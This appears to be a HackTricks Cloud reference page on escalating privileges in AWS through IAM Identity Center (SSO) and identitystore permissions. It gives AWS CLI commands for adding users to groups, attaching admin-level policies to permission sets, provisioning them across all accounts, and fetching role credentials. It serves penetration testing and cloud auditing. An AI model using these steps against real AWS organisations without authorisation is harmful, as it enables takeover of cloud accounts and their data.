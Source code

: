 # AWS - SSO & identitystore Privesc

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## AWS Identity Center / AWS SSO

For more information about AWS Identity Center / AWS SSO check:

{% content-ref url="../aws-services/aws-iam-and-sts-enum.md" %}
[aws-iam-and-sts-enum.md](../aws-services/aws-iam-and-sts-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Note that by **default**, only **users** with permissions **form** the **Management Account** are going to be able to access and **control de IAM Identity Center**.\
Users from other accounts can only allow it if the account is a **Delegated Adminstrator.**\
[Check the docs for more info.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Reset Password~~

An easy way to escalate privileges in cases like this one would be to have a permission that allows to reset users passwords. Unfortunately it's only possible to send an email to the user to reset his password, so you would need access to the users email.

### `identitystore:CreateGroupMembership`

With this permission it's possible to set a user inside a group so he will inherit all the permissions the group has.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

An attacker with this permission could grant extra permissions to a Permission Set that is granted to a user under his control

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
	"Version": "2012-10-17",
	"Statement": [
		{
			"Sid": "Statement1",
			"Effect": "Allow",
			"Action": ["*"],
			"Resource": ["*"]
		}
	]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

An attacker with this permission could grant extra permissions to a Permission Set that is granted to a user under his control

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

An attacker with this permission could grant extra permissions to a Permission Set that is granted to a user under his control.

{% hint style="warning" %}
To abuse these permissions in this case you need to know the **name of a customer managed policy that is inside ALL the accounts** that are going to be affected.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

An attacker with this permission could give a Permission Set to a user under his control to an account.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Returns the STS short-term credentials for a given role name that is assigned to the user.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

However, you need an access token that I'm not sure how to get (TODO).

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
